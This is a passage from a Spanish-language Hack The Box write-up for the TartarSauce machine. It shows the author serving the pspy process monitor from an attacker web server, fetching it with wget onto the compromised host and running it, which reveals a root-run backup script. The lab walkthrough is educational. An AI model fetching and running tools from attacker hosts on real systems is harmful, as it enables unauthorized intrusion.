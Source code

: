 Hasta el momento, no vemos nada interesante que nos pueda ayudar a escalar privilegios; así que vamos a ver los procesos que se ejecutan en la máquina. Para este caso y variar un poco, vamos a hacer uso de la herramienta [pspy](https://github.com/DominicBreuker/pspy). Nos descargamos el binario compilado 32 bit small version y lo transferimos a la máquina.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.88 - - [21/Sep/2021 22:23:04] "GET /pspy32s HTTP/1.1" 200 -
```

```bash
onuma@TartarSauce:/tmp$ wget http://10.10.14.16/pspy32s
--2021-09-21 23:27:49--  http://10.10.14.16/pspy32s
Connecting to 10.10.14.16:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1090528 (1.0M) [application/octet-stream]
Saving to: 'pspy32s'

pspy32s                          100%[=======================================================>]   1.04M  1.14MB/s    in 0.9s    

2021-09-21 23:27:50 (1.14 MB/s) - 'pspy32s' saved [1090528/1090528]

onuma@TartarSauce:/tmp$ 
```

Le damos permisos de ejecución y corremos el programa.

```bash
www-data@TartarSauce:/tmp$ chmod +x pspy32s 
www-data@TartarSauce:/tmp$ ls -l
total 1076
prw-r--r-- 1 www-data www-data       0 Sep 21 23:34 f
-rwxr-xr-x 1 www-data www-data 1090528 Sep 21 23:17 pspy32s
drwx------ 3 root     root        4096 Sep 21 23:31 systemd-private-305f8c560c2b400f90955c02f18e3b49-systemd-timesyncd.service-TXJMzw
drwx------ 2 root     root        4096 Sep 21 23:31 vmware-root
www-data@TartarSauce:/tmp$
```

```bash
www-data@TartarSauce:/tmp$ ./pspy
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
...
2021/09/22 00:06:20 CMD: UID=0    PID=2359   | /bin/bash /usr/sbin/backuperer 
2021/09/22 00:06:20 CMD: UID=0    PID=2358   | /lib/systemd/systemd-udevd 
2021/09/22 00:06:20 CMD: UID=0    PID=2357   | /lib/systemd/systemd-udevd 
2021/09/22 00:06:20 CMD: UID=0    PID=2356   | /lib/systemd/systemd-udevd 
2021/09/22 00:06:20 CMD: UID=0    PID=2355   | /lib/systemd/systemd-udevd 
2021/09/22 00:06:20 CMD: UID=0    PID=2354   | /lib/systemd/systemd-udevd 
```